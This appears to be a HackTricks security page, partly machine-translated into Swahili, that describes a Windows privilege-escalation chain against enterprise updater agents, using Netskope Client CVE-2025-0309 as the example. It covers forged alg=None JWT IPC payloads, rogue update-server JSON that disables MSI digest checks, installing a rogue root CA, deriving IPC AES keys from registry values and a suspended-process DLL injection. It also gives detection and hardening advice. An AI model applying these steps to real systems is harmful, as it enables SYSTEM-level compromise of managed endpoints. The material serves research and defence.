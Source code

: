 # Kutumiwa Vibaya kwa Auto-Updaters za Shirika na IPC zilizo na Vibali (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Ukurasa huu unazungumzia darasa la Windows local privilege escalation chains zinazopatikana katika endpoint agents na updaters za shirika ambazo zinaonyesha uso wa IPC wa low‑friction na mtiririko wa update wenye vibali. Mfano unaowakilisha ni Netskope Client for Windows < R129 (CVE-2025-0309), ambapo mtumiaji mwenye vibali vya chini anaweza kulazimishwa kujiunga na server inayodhibitiwa na mshambuliaji kisha kuwasilisha MSI ya uharibifu ambayo service ya SYSTEM inaisakinisha.

Mawazo muhimu unayoweza kutumia dhidi ya bidhaa zinazofanana:
- Abuse a privileged service’s localhost IPC to force re‑enrollment or reconfiguration to an attacker server.
- Implement the vendor’s update endpoints, deliver a rogue Trusted Root CA, and point the updater to a malicious, “signed” package.
- Evade weak signer checks (CN allow‑lists), optional digest flags, and lax MSI properties.
- If IPC is “encrypted”, derive the key/IV from world‑readable machine identifiers stored in the registry.
- If the service restricts callers by image path/process name, inject into an allow‑listed process or spawn one suspended and bootstrap your DLL via a minimal thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Wakala wengi hutoa mchakato wa user‑mode UI ambao unazungumza na service ya SYSTEM juu ya localhost TCP kwa kutumia JSON.

Imeonekana katika Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Craft a JWT enrollment token whose claims control the backend host (e.g., AddonUrl). Use alg=None so no signature is required.
2) Send the IPC message invoking the provisioning command with your JWT and tenant name:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Service inaanza kuwasiliana na rogue server yako kwa ajili ya enrollment/config, kwa mfano:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Vidokezo:
- Ikiwa uthibitishaji wa mtumaji unategemea njia/jina, tuma ombi kutoka kwa vendor binary iliyoorodheshwa kwenye orodha ya kuruhusiwa (angalia §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Mara client inapozungumza na server yako, tekeleza endpoints zinazotarajiwa na ielekeze kwa attacker MSI. Mfuatano wa kawaida:

1) /v2/config/org/clientconfig → Rudisha JSON config yenye kipindi kifupi sana cha updater, kwa mfano:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Rudisha cheti cha CA katika fomati PEM. Huduma inakisakinisha katika Local Machine Trusted Root store.
3) /v2/checkupdate → Weka metadata inayorejelea MSI haribifu na toleo bandia.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: huduma inaweza tu kuangalia Subject CN ni “netSkope Inc” au “Netskope, Inc.”. CA yako ya uhalifu inaweza kutoa leaf yenye CN hiyo na kusaini MSI.
- CERT_DIGEST property: jumuisha mali ya MSI isiyoharibu yenye jina CERT_DIGEST. Hakuna utekelezaji wa lazima wakati wa usakinishaji.
- Optional digest enforcement: config flag (e.g., check_msi_digest=false) inazima uthibitishaji wa ziada wa kriptografia.

Matokeo: service ya SYSTEM inakisakinisha MSI yako kutoka
C:\ProgramData\Netskope\stAgent\data\*.msi
ikitekeleza nambari yoyote kama NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Kutoka R127, Netskope ilifunika IPC JSON katika uwanja encryptData unaoonekana kama Base64. Reversing ilionyesha AES yenye key/IV zinazotokana na thamani za registry zinazoweza kusomwa na mtumiaji yeyote:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Wavamizi wanaweza kuiga encryption na kutuma amri za IPC zenye encryption halali kutoka kwa mtumiaji wa kawaida. Ushauri wa jumla: ikiwa agent kwa ghafla “inaficha” IPC yake, tazama device IDs, product GUIDs, install IDs chini ya HKLM kama nyenzo za encryption.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Huduma zingine hujaribu kuthibitisha peer kwa kutatua PID ya muunganisho wa TCP na kulinganisha image path/name dhidi ya binaries zilizoorodheshwa za vendor chini ya Program Files (mfano stagentui.exe, bwansvc.exe, epdlp.exe).

Njia mbili za vitendo:
- DLL injection ndani ya process iliyo kwenye allow‑list (mfano nsdiag.exe) na kushika/proxy IPC kutoka ndani yake.
- Piga kengele binary iliyoorodheshwa ikifufuliwa kwa hali ya suspended na kuanzisha DLL yako ya proxy bila CreateRemoteThread (see §5) ili kutosheleza sheria zilizotekelezwa na driver kuzuia tampering.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products mara nyingi huja na minifilter/OB callbacks driver (mfano Stadrv) inayokata haki hatari kutoka kwa handles za processes zilizo na ulinzi:
- Process: inatoa mazingira kama PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: inazuia hadi THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Loader ya user‑mode inayotegemewa na kuheshimu vikwazo hivi:
1) CreateProcess ya vendor binary na CREATE_SUSPENDED.
2) Pata handles ambazo bado unaruhusiwa: PROCESS_VM_WRITE | PROCESS_VM_OPERATION kwa process, na thread handle yenye THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (au tu THREAD_RESUME ikiwa unatayarisha code kwenye RIP inayojulikana).
3) Andika juu ya ntdll!NtContinue (au thunk nyingine ya mapema, iliyoorodheshwa kwa hakika) kwa stub ndogo inayopiga LoadLibraryW kwenye path ya DLL yako, kisha kuruka kurudi.
4) ResumeThread ili kuamsha stub yako ndani ya process, ikipakia DLL yako.

Kwa sababu haukutumia PROCESS_CREATE_THREAD au PROCESS_SUSPEND_RESUME kwenye process iliyokuwa tayari na ulinzi (uliiunda wewe), sera ya driver inatimizwa.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) inaendesha otomatiki rogue CA, kusaini MSI haribifu, na kutumika kupeana endpoints zinazohitajika: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope ni custom IPC client inayotengeneza ujumbe wowote wa IPC (hiari kwa AES‑encryption) na inajumuisha suspended‑process injection ili asili iwe kutoka kwa binary iliyoorodheshwa.

---
## 7) Detection opportunities (blue team)
- Simamia uongezaji wa Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) hufanya kazi vizuri.
- Tambua utekelezaji wa MSI ulioanzishwa na service ya agent kutoka paths kama C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Angalia logs za agent kwa hosts/tenants zisizotarajiwa za enrollment, kwa mfano: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – tafuta addonUrl / tenant anomalies na provisioning msg 148.
- Toa alarm juu ya localhost IPC clients ambao si binaries zilizotarajiwa kusainiwa, au wanaotokana na miti ya child process isiyo ya kawaida.

---
## Hardening tips for vendors
- Gana enrollment/update hosts kwa allow‑list kali; kataa domains zisizo salama katika clientcode.
- Thibitisha IPC peers kwa primitives za OS (ALPC security, named‑pipe SIDs) badala ya ukaguzi wa image path/name.
- Weka nyenzo za siri nje ya HKLM zinazosomeka kwa wote; ikiwa IPC lazima iwe encrypted, zaa keys kutoka kwa siri zilizo na ulinzi au zigadilishe juu ya channels zilizo thibitishwa.
- Tendea updater kama uso wa supply‑chain: hitaji mnyororo kamili hadi CA uamiliki, thibitisha signatures za package dhidi ya pinned keys, na fail closed ikiwa validation imezimwa katika config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
